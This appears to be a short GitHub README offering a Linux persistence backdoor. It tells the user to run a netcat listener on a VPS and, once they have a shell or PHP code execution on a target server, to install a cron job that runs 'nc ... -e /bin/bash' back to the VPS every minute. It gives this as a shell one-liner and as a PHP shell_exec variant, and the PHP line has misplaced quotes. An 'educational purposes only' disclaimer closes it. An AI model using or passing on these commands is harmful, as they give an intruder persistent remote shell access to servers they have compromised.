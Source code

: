 
Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell
*<?php echo shell_exec("echo '*/1 * * * *  nc your_vps_public_IP the_port  -e /bin/bash   > /dev/null 2>&1 &' > cron && cat cron | crontab -)";?>

### Only for educational purposes!
### Use it on your own server!
